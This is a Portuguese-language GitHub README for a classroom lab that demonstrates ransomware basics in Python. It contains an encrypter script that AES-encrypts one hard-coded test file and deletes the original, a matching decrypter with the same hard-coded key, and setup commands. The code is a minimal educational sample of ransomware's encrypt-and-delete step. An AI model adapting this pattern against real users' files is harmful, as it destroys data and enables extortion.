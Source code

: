 # Ransonware com Python - Encriptação e Descriptação

## Disclaimer

Repositório criado para fins educacionais.

## Objetivo

Este laboratório visa entender as bases do ransomware através da encriptação e descriptação através da linguagem Python e sua biblioteca AES.

### Habilidades Aprendidas

- Conceitos avançados de criptografia com linguagem de código
- Entendimento aprofundado de técnicas de hacking

### Ferramentas Utilizadas

- Kali Linux
- Python 3

## Desenvolvimento

Criar uma pasta com 3 arquivos: um arquivo de texto .TXT e dois arquivos .PY
No laboratório foram criados os arquivos: teste.txt, encrypter.py e decrypter.py

![ransomware-python-cybersec/ransomware-python-imgs/ransomware-python-img1.png at main · TatianePimentaLeal/ransomware-python-cybersec · GitHub](https://github.com/TatianePimentaLeal/ransomware-python-cybersec/blob/main/ransomware-python-imgs/ransomware-python-img1.png)

*Ref 1: Criação de pasta e arquivos*

\***

No arquivo .TXT inserir um texto simples para fins de exemplo visual. Já nos arquivos .py foram incluídos os seguintes códigos:

**encrypter.py**

```
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
```

**decrypter.py**

```
import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```

Caso apareça o erro:

> **Traceback (most recent call last): File "/home/kali/projeto-ransomware/encrypter.py", line 2, in import pyaes ModuleNotFoundError: No module named 'pyaes'**



É porque, para rodar os comandos de encriptação e decriptação, é importante ter a biblioteca AES do Python. Neste caso, na pasta dos arquivos, rode o comando:

```
sudo apt-get update
```

Aguarde as atualizações e então rode este outro comando e aguarde:

```
sudo apt-get -y install python3-pyaes
```

Assim, o erro não aparecerá mais e os comandos Python poderão ser executados sem problemas:

![ransomware-python-cybersec/ransomware-python-imgs/ransomware-python-img2.png at main · TatianePimentaLeal/ransomware-python-cybersec · GitHub](https://github.com/TatianePimentaLeal/ransomware-python-cybersec/blob/main/ransomware-python-imgs/ransomware-python-img2.png)

*Ref 2: Instalação do Python3-pyaes*

\***

Agora, ao rodar o comando:

```
python encrypter.py
```

O arquivo teste.txt será encriptado:

![ransomware-python-cybersec/ransomware-python-imgs/ransomware-python-img3.png at main · TatianePimentaLeal/ransomware-python-cybersec · GitHub](https://github.com/TatianePimentaLeal/ransomware-python-cybersec/blob/main/ransomware-python-imgs/ransomware-python-img3.png)

*Ref 3: Encriptação do arquivo teste.txt*

\***

E ao rodar o comando:

```
python decrypter.py
```

O arquivo voltará a aparecer corretamente:

![ransomware-python-cybersec/ransomware-python-imgs/ransomware-python-img4.png at main · TatianePimentaLeal/ransomware-python-cybersec · GitHub](https://github.com/TatianePimentaLeal/ransomware-python-cybersec/blob/main/ransomware-python-imgs/ransomware-python-img4.png)

![ransomware-python-cybersec/ransomware-python-imgs/ransomware-python-img5.png at main · TatianePimentaLeal/ransomware-python-cybersec · GitHub](https://github.com/TatianePimentaLeal/ransomware-python-cybersec/blob/main/ransomware-python-imgs/ransomware-python-img5.png)

*Ref 4 e 5: Decriptação do arquivo teste.txt.*
